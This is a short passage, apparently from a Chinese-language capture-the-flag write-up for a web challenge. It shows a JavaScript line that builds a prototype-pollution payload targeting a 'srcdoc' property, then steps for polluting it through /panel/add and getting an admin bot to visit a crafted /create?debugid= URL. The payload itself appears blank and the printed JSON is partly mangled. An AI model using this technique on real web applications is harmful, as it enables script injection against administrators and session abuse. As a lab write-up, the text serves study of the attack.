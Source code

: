 console.log(JSON.stringify({widgetName: 'constructor',widgetData: JSON.stringify({prototype: {srcdoc: ``}})}))//{ "widgetName": "constructor", "widgetData": "{"prototype ":{"srcdoc ":" "}}"}

2.在/panel/add通过原型链污染，往srcdoc属性注入link的内容

![e06d38ae182eb8dee7bc55e2034affcd.png](img/c99db83059d53b836745fdb2a9d5ca11.png)

3.然后再用admin bot去访问对应的地址，注意这里利用/create?debugid=xxx带上自己cookie中的panelId即可

![3fbc3ba22d95ff99cf8aabf41257f283.png](img/fa881378409620e85a3cceb20042135d.png)
